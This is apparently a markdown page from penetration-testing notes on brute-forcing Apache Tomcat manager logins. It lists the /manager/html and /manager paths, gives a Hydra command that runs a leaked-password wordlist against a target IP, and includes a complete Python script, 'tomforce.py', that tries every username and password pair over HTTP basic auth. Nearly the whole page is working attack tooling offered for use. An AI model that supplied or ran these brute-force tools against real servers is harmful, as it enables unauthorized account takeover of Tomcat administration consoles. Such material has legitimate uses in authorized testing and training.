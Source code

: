 ## Login Brute force

Login might be at:  

- `/manager/html`
- `/manager`

#### Hydra

```bash
hydra -l tomcat -P /usr/share/wordlists/SecLists-master/Passwords/darkweb2017-top1000.txt -f $ip http-get /manager/html 
```

#### Custom script

Let's call it tomforce.py:

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```
